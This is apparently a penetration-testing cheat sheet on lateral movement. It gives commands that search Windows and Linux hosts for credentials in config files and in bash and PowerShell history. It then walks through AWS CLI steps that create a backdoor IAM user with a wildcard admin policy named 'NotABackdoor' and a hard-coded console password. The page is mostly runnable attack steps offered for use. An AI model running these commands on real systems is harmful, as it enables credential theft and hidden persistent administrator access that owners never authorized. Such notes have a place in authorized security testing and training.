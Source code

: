 # Lateral movement
## Stealing access tokens
### Web config and App config files
-  ```Web.config``` and ```app.config``` files might contain creds or access tokens.
- Look for management cert and extract to ```.pfx``` like publishsettings files
```
sudo find / -name web.config 2>/dev/null
Get-ChildItem -Path C:\ -Filter app.config -Recurse -ErrorAction SilentlyContinue -Force
```

### Internal repositories
- Find internal repos (scan for port 80, 443 or Query AD and look for subdomains or hostnames as git, code, repo, gitlab, bitbucket etc)
- Tools for finding secrets
  - Gitleaks https://github.com/zricethezav/gitleaks
  - Gitrob https://github.com/michenriksen/gitrob
  - Truffle hog https://github.com/dxa4481/truffleHog
  
### Command history
- Look through command history
- ```~/.bash_history`` or ```%USERPROFILE%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt```
```
sudo find / -name .bash_history 2>/dev/null
Get-ChildItem -Path C:\ -Filter *ConsoleHost_history.txt* -Recurse -ErrorAction SilentlyContinue -Force
```

## Gain GUI Acess
#### Copy and save the following
- as ```admin-policy.json```
```
{
  "Version": "2012-10-17",
  "Statement": [
    {
      "Sid": "NotABackdoor",
      "Effect": "Allow",
      "Action": "*",
      "Resource": "*"
    }
  ]
}
```

#### Create a new user that will give gui access to
- After gaining administrator
- Note down the ARN
```
sudo aws iam create-user --user-name gui-user --profile <profile name>
```

#### Attach the policy to the new user
```
sudo aws iam put-user-policy --user-name gui-user --policy-name VisualAid --policy-document file://admin-policy.json --profile <profile name>
```

#### Set password for the user
```
sudo aws iam create-login-profile --user-name gui-user --password "GUIAccessTime1" --profile <profile name>
```

#### Login with account ID
- Part from ARN
- https://<Account-ID-Number>.signin.aws.amazon.com/console/
